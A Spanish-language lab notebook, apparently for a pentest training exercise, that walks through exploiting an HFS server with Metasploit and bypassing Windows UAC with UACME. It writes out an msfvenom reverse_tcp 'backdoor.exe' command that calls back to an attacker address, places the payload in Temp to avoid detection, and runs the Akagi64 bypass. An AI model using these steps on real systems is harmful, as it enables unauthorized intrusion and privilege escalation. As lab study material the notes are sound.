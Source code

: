 Vamos a realizar una escalada de privilegios con le herramienta UACME
https://github.com/hfiref0x/UACME

Para ello primero realizaremos un escaneo del SO
nmap -sV -sC -p- 10.2.16.121
![[Pasted image 20240311095106.png]]

Una vez visto el puerto que vamos a intentar explotar, revisaremos si hay algun exploit que podamos utilizar
searchsploit hfs
![[Pasted image 20240311095226.png]]

Ahora ejecutamos metasploit y cargamos el exploit
![[Pasted image 20240311100309.png]]

Ahora ejecutamos el exploit y ya habremos obtenido una sesión de meterpreter
![[Pasted image 20240311100423.png]]

Una vez obtenida la sesión, comporbarmos los permisos y que sistema ejecuta, también pasaremos la sesion de x86 a x64
![[Pasted image 20240311101543.png]]

Con el siguiente comandos intentamos hacer una escalada de privilegios
![[Pasted image 20240311103042.png]]


Accedemos a una sesión shell y revisamos que usuarios estan en el grupo de administradores
![[Pasted image 20240311103320.png]]

Ver permisos de un usuario
![[Pasted image 20240311103611.png]]

![[Pasted image 20240311103703.png]]

Los permisos que deberian estar activados para poder tener UAC habilitado son:
- SeDebugPrivilege
- SeTcbPrivilege


Crearemos un payload con msfvenom para obtener la sesión con privilegios
msfvenom windows/meterpreter/reverse_tcp LHOST=10.10.18.3 LPORT=4444 -f exe > 'backdoor.exe'
![[Pasted image 20240311112556.png]]

Una vez tenemos creado el payload, lo siguiente que haremos sera cargar tanto el payload como el programa ejecutable de Akagi64.exe en la carpeta de la maquina victima, nosotros lo realizaremos en la carpeta Temp para que resulte mas dificil detectarnos
![[Pasted image 20240311113016.png]]

Abrimos otra terminal para ejecutar otra consola de Metasploit
![[Pasted image 20240311113335.png]]

Como podemos ver ya estamos a la escucha desde metasploit, ahora volveremos a nuestra sesions de meterpreter y ejecutaremos Akagi64
Ejecutamos el siguiente comando
Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
![[Pasted image 20240311113619.png]]

Una vez ejecutamos el payload en la maquina victima volveremos a nuestra sesion con el exploit de multi/handler abierto y como veremos ya obtenemos la sesion con privilegios
![[Pasted image 20240311114922.png]]



